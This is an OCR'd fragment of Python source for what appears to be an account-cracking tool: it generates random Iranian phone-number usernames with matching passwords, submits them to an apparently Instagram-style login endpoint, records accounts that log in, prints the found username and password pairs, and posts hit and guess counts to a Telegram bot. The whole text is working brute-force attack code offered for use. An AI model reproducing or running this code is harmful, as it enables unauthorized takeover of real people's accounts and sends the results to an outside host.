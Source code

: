 rss = requests.get(w).text

if 'I' in rss:

    sleep(0.01)

    user = '0987654321'

    while True:

        if shuger == 'S1':

            us = str("".join(random.choice(user)for i in range(7)))

            username = '+98911'  +us

            password = '0911'  +us   

        uid = str(uuid4())              

        data = {

             'uuid':uid, 

             'password':password, 

             'username':username, 

             'device_id':uid, 

             'from_reg':'false', 

             '_csrftoken':'missing', 

             'login_attempt_countn':'0'}

        req= requests.post(url, headers=headers, data=data)        

        if 'logged_in_user' in req.json():

            zz+=1

            userQ = req.json()['logged_in_user']['username']

            code_mrko(userQ,password)

        elif '"message":"challenge_required","challenge"' in req.json():

            print (Z+'USER : '+username+': PASS : '+password)

        else:

            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= ⭕Aloshe 𝖳𝖮𝖮𝖫 \n• ────── ✾ ────── •\n⭕𝖧𝖴𝖭𝖳 : {zz}\n⭕𝖦𝖴𝖤𝖲𝖲 :{aa}\n• ────── ✾ ────── •\n⭕𝖡𝖸:@gftali")

            print (B+'USER : '+username+': PASS : '+password)

            aa+=1

المطور (𝖲𝖠𝖭𝖳𝖨𝖳𝖮)
